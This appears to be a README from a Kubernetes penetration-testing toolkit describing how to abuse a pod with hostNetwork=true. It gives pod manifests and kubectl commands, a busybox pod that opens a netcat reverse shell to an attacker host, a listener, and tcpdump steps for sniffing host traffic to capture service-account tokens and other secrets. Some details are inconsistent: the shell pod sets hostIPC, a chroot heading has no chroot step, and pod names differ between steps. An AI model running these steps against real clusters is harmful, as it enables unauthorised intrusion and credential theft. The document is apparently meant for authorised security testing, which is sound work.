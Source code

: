## You can create a pod with only hostNetwork

If you only have `hostNetwork=true`, you can't get RCE on the host directly, but if your cross your fingers you might still find a path to cluster admin. 
The important things here are: 
* You can sniff traffic on any of the host's network interfaces, and maybe find some kubernetes tokens or application specific passwords, keys, etc. to other services in the cluster.  
* You can communicate with network services on the host that are only listening on localhost/loopback. Services you would not be able to touch without `hostNetowrk=true`

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostnetwork
  labels:
    app: hostnetwork
spec:
  hostNetwork: true
  containers:
  - image: ubuntu
    command:
      - "sleep"
      - "604800"
    imagePullPolicy: IfNotPresent
    name: hostnetwork
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  restartPolicy: Always
  ```
[pod-hostnetwork-only.yaml](pod-hostnetwork-only.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostnetwork-only.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostnetwork-only/pod-hostnetwork-only.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostnetwork-only -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostipc-revshell
  labels:
    app: hostipc-revshell
spec:
  hostIPC: true
  containers:
  - image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]

    imagePullPolicy: IfNotPresent
    name: hostipc--revshell
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  restartPolicy: Always
```
[pod-hostnetwork-only-revshell.yaml](pod-hostnetwork-only-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostnetwork-only/pod-hostnetwork-only-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post Exploitation 
```bash
# Install tcpdump and sniff traffic 
# Note: If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes tcpdump, like https://hub.docker.com/r/corfr/tcpdump

apt update && apt install tcpdump 

# You now have a few options for next steps: 

# See if kubelet read only port (10255/tcp) is open on the nodes IP or the docker host IP

nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!

# If the read only port is open, run tcpdump recording the output to a file for a few minutes

#######################
#Warning: Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)
#Warning: Always run tcpdump with the -n flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 
#########################
tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255

#Stop it, and read the file with tcpdump and use the -A flag to only show the printable characters

tcpdump -ro kubelet-ro.cap -s0 -A

#Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt token. If you are really lucky, that token might be associated with a service account in kube-system.


# Another option entirely: investigate local services
curl https://localhost:1234/metrics
```


#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the pentration test.
